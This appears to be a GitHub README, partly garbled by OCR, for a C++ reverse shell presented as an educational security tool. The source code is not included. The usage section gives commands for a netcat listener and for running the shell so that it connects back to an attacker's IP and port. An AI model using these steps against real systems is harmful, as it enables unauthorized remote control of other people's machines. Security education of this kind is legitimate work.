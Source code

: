 # Reverse Shell in C++

Welcome to the repository for my Reverse Shell project written in C++. This project demonstrates how to create a reverse shell, a powerful tool for network security testing and educational purposes.

## What is a Reverse Shell?

A reverse shell is a type of shell where the target machine connects back to the attacker's machine. This can be useful in scenarios where the target machine is behind a firewall or NAT and cannot accept incoming connections. Instead, it initiates an outgoing connection to the attacker's machine, allowing the attacker to gain control.

## Features

- **Lightweight and Efficient**: The reverse shell is designed to be lightweight and efficient, ensuring minimal resource usage on the target machine.
- **Cross-Platform**: Written in C++, it can be compiled and run on various platforms including Windows, Linux, and macOS.
- **Encrypted Communication**: Ensures that the data transferred between the attacker and the target machine is encrypted.

## How to Build

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/yourusername/reverse-shell-cpp.git
   cd reverse-shell-cpp
Install Dependencies:
Ensure you have a C++ compiler installed (like g++, clang, or MSVC). For example, on Ubuntu, you can install g++ with:

```bash

sudo apt-get install g++
Compile the Code:

```bash

g++ -o reverse_shell reverse_shell.cpp

For Windows, you might use:

```bash

    cl /EHsc reverse_shell.cpp

- How to Use

    Start a Listener on the Attacker Machine:
    You can use netcat to start a listener. For example:

    ``` bash

nc -lvp 4444

Run the Reverse Shell on the Target Machine:
Ensure the target machine can reach the attacker's IP and port. Run the compiled reverse_shell executable:

```bash

./reverse_shell <attacker_ip> <port>

For example:

bash

    ./reverse_shell 192.168.1.10 4444

    Establish Connection:
    Once the reverse shell is executed on the target machine, it will connect back to the attacker's machine, providing a command line interface to the attacker.

Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool is illegal and unethical. Always obtain proper authorization before using it in any environment.
